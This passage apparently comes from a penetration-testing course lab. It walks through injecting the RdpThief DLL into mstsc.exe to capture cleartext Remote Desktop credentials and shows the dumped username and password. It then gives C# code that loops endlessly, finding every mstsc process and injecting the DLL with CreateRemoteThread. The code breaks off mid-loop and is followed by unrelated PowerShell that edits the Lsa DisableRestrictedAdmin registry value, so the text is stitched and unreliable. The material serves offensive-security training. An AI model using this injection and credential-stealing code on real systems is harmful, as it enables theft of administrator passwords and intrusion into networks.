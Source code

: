 > Listing 25 - Injection code for RdpThief

To test this out, we'll compile the C# project, log in to appsrv01 as _dave_, and copy the executable to C:\Tools.

Next, we start mstsc.exe followed by our C# console application.

Finally, we'll use mstsc to log in to dc01 as the _admin_ user then dump the contents of the RdpThief output file to find the clear text credentials.

```
C:\Tools> mstsc.exe

C:\Tools> Inject.exe

C:\Tools> type C:\Users\dave\AppData\Local\Temp\6\data.bin
S e r v e r :   d c 0 1
 U s e r n a m e :   c o r p 1 \ a d m i n
 P a s s w o r d :   l a b

 S e r v e r :   d c 0 1
 U s e r n a m e :   c o r p 1 \ a d m i n
 P a s s w o r d :   l a b
```

> Listing 26 - Dumping credentials from mstsc.exe

Note that the username in the output path is dynamically resolved and the numbered subdirectory at the end of the path is the session ID.

While this technique presents us with the user's username, domain, and password in clear text, we must know when an mstsc.exe process is started and launch our C# console application before the user enters the credentials.

To improve on this, we can modify our injection code further to automatically detect when an instance of mstsc is started and then inject into it.

We'll implement this with an infinitely-running _while_ loop. With each iteration of the loop, we'll discover all instances of mstsc.exe and subsequently perform an injection into each of them.

Finally, we'll use the _Thread.Sleep_[9](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5383-9) method to pause for one second between each iteration. To use this method, we must first import the _System.Threading_ namespace with the _using_ statement.

```
using System.Threading;
...
static void Main(string[] args)
{
  String dllName = "C:\\Tools\\RdpThief.dll";
  while(true)
  {
    Process[] mstscProc = Process.GetProcessesByName("mstsc");
    if(mstscProc.Length > 0)
    {
      for(int i = 0; i < mstscProc.Length; i++)
      {
        int pid = mstscProc[i].Id;

        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        IntPtr outSize;
        Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
      }
```

[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit